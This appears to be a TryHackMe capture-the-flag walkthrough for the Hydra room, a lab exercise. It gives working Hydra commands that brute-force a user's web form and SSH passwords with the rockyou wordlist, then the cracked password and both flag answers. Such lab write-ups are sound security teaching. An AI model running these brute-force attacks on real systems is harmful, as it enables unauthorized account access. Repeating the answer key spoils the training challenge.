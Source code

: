 # Hydra - TryHackMe

Learn about and use Hydra, a fast network logon cracker, to bruteforce and obtain a website's credentials.

## Overview

- **Room URL:** [https://tryhackme.com/room/hydra](https://tryhackme.com/room/hydra)
- **Difficulty:** Easy
- **Time to complete:** 45

## Walkthrough

### 1. Hydra Introduction

_No hints needed!_

### 2. Using Hydra

- <p>Use Hydra to bruteforce molly's web password. What is flag 1?<br /></p>

- Start the machine and visit the website via MACHINE IP

![Guide image](./screenshots/hydra-1.png)

- Open Web Devtools, in Network section, try login there is a POST request to `http://<MACHINE_IP>/login`

![Guide image](./screenshots/hydra-2.png)

- Now we know the path, we can brute-force the password

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt <MACHINE_IP> http-post-form "/login:username=^USER^&password=^PASS^:F=Incorrect" -V
```

![Guide image](./screenshots/hydra-3.png)

- We got the password `sunshine`, login as `molly` and get the flag

![Guide image](./screenshots/hydra-4.png)

**=> Answer: `THM{2673a7dd116de68e85c48ec0b1f2612e}`**

- <p>Use Hydra to bruteforce molly's SSH password. What is flag 2?<br /></p>

- Do the same with ssh to get the password and gain access

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt <MACHINE_IP> -t 4 ssh
```

![Guide image](./screenshots/hydra-5.png)

- Now we got the password, ssh to server and get the flag

```bash
ssh molly@<MACHINE_IP>

cat flag2.txt
```

![Guide image](./screenshots/hydra-6.png)

**=> Answer: `THM{c8eeb0468febbadea859baeb33b2541b}`**
